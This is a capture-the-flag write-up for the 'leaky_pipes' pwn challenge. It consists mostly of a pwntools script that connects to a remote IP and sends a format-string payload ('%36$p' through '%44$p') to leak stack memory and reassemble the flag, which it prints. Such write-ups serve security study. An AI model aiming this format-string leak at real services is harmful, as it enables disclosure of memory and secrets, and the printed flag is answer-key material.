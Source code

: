 https://ctftime.org/event/2416

# leaky_pipes (pwn)

Welcome to Leaky Pipes, where a seemingly innocent program has sprung a serious leak! Your mission is to uncover the concealed flag hidden within the program. Will you be the one to patch the leak and reveal the hidden secret?

nc 34.125.199.248 1337

## Solution

1) Leak flag 4 bytes a time using `%p`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./leaky_pipes", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 1337)

p.readuntil(b">> ")

p.sendline(b"%36$p.%37$p.%38$p.%39$p.%40$p.%41$p.%42$p.%43$p.%44$p.")

p.readline()

dwords = p.readline().decode().split(".")[:-1]

flag = b""
for dword in dwords:
    flag += int(dword, 16).to_bytes(length=4, byteorder="little")

flag = flag[:flag.index(b"}")+1]

log.success(flag.decode()) # OSCTF{F0rm4t_5tr1ngs_l3ak4g3_l0l}
```

## Flag
`OSCTF{F0rm4t_5tr1ngs_l3ak4g3_l0l}`

smiley 2024/07/13
